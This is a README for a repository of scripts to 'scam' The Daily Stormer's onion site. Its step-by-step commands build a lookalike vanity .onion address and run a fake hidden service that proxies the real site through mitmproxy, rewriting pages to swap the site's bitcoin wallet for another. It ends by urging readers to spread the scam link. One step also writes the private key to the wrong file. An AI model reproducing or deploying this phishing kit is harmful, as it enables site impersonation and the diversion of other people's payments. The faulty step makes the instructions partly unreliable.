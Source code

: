# storm_phishing

Quick scripts to scam The Daily Stormer dark web site.

## Tools

### scallion

[Scallion](https://github.com/lachesis/scallion) lets you create vanity .onion
addresses. You'll need it to create a key pair for a dstormer--------.onion
address.

### tor

[tor](https://www.torproject.org/) hidden services let users publish web sites
and other services without needing to reveal the location of the site. You need
it to run the fake/scam dstormer--------.onion service.

### mitmproxy

[mitmproxy](https://mitmproxy.org/) is an interactive console program that 
allows traffic flows to be intercepted, inspected, modified, and replayed.
You need it to send requests to the real dstormer site, and then intercept
and/or change the contents of the responses.

### proxychains4

[proxychains](https://github.com/rofl0r/proxychains-ng) Redirects the HTTP 
connections from mitmproxy through tor, so they can reach the real dstormer
.onion site.

## Steps

1. Use scallion to generate a dstormer--------.onion hostname and key.

  ```
mono scallion/bin/Debug/scallion.exe -d 1 dstormer
...
<XmlMatchOutput>
  <Hash>dstormer--------.onion</Hash>
  <PrivateKey>-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
</PrivateKey>
  <PublicModulusBytes>...</PublicModulusBytes>
  <PublicExponentBytes>...</PublicExponentBytes>
</XmlMatchOutput>
  ```

2. Make a directory for the scam hidden service.

  ```
mkdir -m 700 /var/lib/tor/hidden_service
  ```

3. Put the `<Hash>` value into `hostname` file. E.g.,

  ```
echo "dstormer--------.onion" > /var/lib/tor/hidden_service/hostname
  ```

4. Put the `<PrivateKey>` value into `private_key` file. E.g.,

  ```
echo "-----BEGIN RSA PRIVATE KEY-----...-----END RSA PRIVATE KEY-----" > /var/lib/tor/hidden_service/hostname
  ```

5. Copy `torrc` from this repo to `/etc/tor/torrc`.

  ```
sudo cp torrc /etc/tor/torrc
  ```

6. Run `proxychains` and whatever `mitmproxy` script you want (E.g., this one replaces TDS bitcoin wallet with bitcoin wallet for tunapanda.org):

  ```
proxychains4 mitmproxy -p 20080 -R http://dstormer6em3i4km.onion --anticache -s "replace_string.py 19m9yEChBSPuzCzEMmg1dNbPvdLdWA59rS 1CU5YgjquupDw6UeXEyA9VEBH34R7fZ19b"
  ```

7. Finally, run `tor` to run your dstormer--------.onion scam site.

8. Visit your dstormer--------.onion site and it should be working.

9. Be sure to share your scam site in whatever creative ways you like.
